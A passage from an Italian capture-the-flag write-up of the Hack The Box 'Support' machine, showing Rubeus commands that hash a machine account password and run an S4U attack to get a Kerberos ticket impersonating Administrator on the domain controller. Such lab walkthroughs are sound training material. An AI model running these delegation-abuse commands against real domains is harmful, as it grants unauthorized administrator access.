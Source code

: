 <p align="center">
  <img src="/Immagini/Windows-Box/Support/support-21.png"/>
</p>

Ora l'attributo ha un valore!

Ora eseguo un attacco S4U, che mi permetterà di ottenre un ticket Kerberos collegato all'account Administrator.

Per fare ciò utilizzo [Rubeus](https://github.com/GhostPack/Rubeus/tree/master).

Per prima cosa ottengo l'hash della password collegata al computer "NACLAPOR":

```text
.\Rubeus.exe hash /password:Ciao123 /user:NACLAPOR$ /domain:support.htb
```

<p align="center">
  <img src="/Immagini/Windows-Box/Support/support-22.png"/>
</p>

Quindi tramite il valore _rc4_hmac_ recupero il ticket per l'amministratore:

```text
.\Rubeus.exe s4u /user:NACLAPOR$ /rc4:B53BC03B3069945DB6F3FAB66AC3AF04 /impersonateuser:Administrator /msdsspn:cifs/dc.support.htb /domain:support.htb /ptt
```

<p align="center">